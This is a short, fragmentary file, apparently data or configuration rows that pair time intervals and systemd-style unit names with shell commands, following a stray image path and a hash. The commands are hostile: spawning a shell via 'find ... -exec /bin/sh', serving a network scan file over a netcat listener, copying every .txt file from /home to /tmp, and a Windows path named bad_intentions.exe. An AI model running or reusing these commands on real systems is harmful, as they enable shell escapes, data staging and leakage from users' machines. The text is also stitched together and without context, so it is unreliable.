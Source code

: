 a96d39ddffe29c39fa94d46b96d3277d
2h,30m,find /etc/passwd -exec /bin/sh \;,2
 C:\Windows\Temp\bad_intentions.exe
-netcat -lp 3389 < /tmp/NMAP_all_hosts.txt,whatischaos.timer
-find /home -name \*.txt -exec cp {} /tmp \;,vestrisecreta.service
